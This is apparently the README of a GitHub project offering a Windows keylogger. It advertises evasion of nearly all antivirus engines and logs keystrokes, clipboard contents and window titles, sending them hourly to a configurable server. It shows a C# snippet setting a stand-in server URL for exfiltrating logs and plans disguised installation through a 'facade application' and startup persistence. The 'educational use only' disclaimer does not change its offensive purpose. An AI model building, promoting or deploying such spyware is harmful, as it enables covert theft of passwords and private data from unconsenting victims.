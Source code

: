 ![](https://img.shields.io/codefactor/grade/github/Darkempire78/Windows-Keylogger?style=for-the-badge) 
![](https://img.shields.io/github/repo-size/Darkempire78/Windows-Keylogger?style=for-the-badge) 

# Windows Keylogger
It is a Windows keylogger undetected by all major anti-virus.

## Virustotal

This keylogger is undetected by 99% of the anti-virus on [**virustotal**](https://www.virustotal.com/gui/).

<img src="Capture1.PNG" width="500"/>

## Installation

Download the [lastest release](https://github.com/Darkempire78/Windows-Keylogger/releases/) and install it.

You can edit the lines 18-19 to add your server where send logs :
```Csharp
string serverLink = "http://server-example/getLog.php";
string serverArg = "log";
```

## Features

* Log keys
* Log the clipboard
* Log window titles
* Send logs to a server each hour

## Logs example

![](Capture2.PNG)

## To do

- [ ] Start the keylogger when the computer is starting
- [ ] Install the keylogger from a facade application
- [ ] Improve the specific country keyboard support

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Disclaimer

**This project is for educational use only. Installing computer monitoring tools on computers you do not own or do not have permission to monitor may violate local, state or federal law.**

Logging other people's keystrokes or breaking into other people's computer without their permission can be considered illegal by the courts of many countries. The monitoring software reviewed here is ONLY for authorized system administrators and/or owners of computers. We assume no liability and are not responsible for any misuse or damage caused by the keylogging software. The end user of this software is obliged to obey all applicable local, state, federal and other laws in his country of residence.

## License

This project is under [GPLv3](https://github.com/Darkempire78/Raid-Protect-Discord-Bot/blob/master/LICENSE).
